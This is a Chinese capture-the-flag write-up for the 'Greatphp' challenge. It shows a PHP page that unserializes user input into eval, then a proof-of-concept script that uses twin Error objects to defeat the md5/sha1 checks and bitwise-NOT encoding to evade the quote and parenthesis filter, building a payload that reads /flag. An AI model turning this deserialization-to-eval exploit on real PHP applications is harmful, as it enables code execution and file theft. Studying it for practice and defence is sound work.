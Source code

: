 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/BUU_[极客大挑战 2020]Greatphp.md","permalink":"/安全/靶场/BUU_[极客大挑战 2020]Greatphp/","title":"BUU_[极客大挑战 2020]Greatphp"}
---
```


```php
<?php  
error_reporting(0);  
class SYCLOVER {  
    public $syc;  
    public $lover;  
  
    public function __wakeup(){  
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){  
            if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){  
                eval($this->syc);  
            } else {  
                die("Try Hard !!");  
            }  
  
        }  
    }  
}  
  
if (isset($_GET['great'])){  
    unserialize($_GET['great']);  
} else {  
    highlight_file(__FILE__);  
}  
  
?>
```


构造POC链：
```php
<?php  
error_reporting(0);  
class SYCLOVER {  
    public $syc;  
    public $lover;  
  
    public function __wakeup(){  
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){  
            if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){  
                eval($this->syc);  
            } else {  
                die("Try Hard !!");  
            }  
  
        }  
    }  
}  
  
$cmd = '/flag';  
//$s = urlencode(~$cmd);  
$str = "?><?=include~" . ~$cmd . "?>";  
  
$a=new Error($str,1);$b=new Error($str,2);  
$c = new SYCLOVER();  
$c->syc = $a;  
$c->lover = $b;  
echo(urlencode(serialize($c)));  
  
?>
```

注意这里绕过引号的技巧是利用取反`~`

这里 `$str = "?><?=include~" . ~$cmd . "?>";  ` 中为什么要在前面加上一个 `?>` 呢？因为 `Exception` 类与 `Error` 的 `__toString` 方法在eval()函数中输出的结果是不可能控的，即输出的报错信息中，payload前面还有一段杂乱信息“Error: ”：

```php
Error: payload in /usercode/file.php:2
Stack trace:
#0 {main}
```


进入eval()函数会类似于：`eval("...Error: <?php payload ?>")`。所以我们要用 `?>` 来闭合一下，即 `eval("...Error: ?><?php payload ?>")`，这样我们的payload便能顺利执行了。















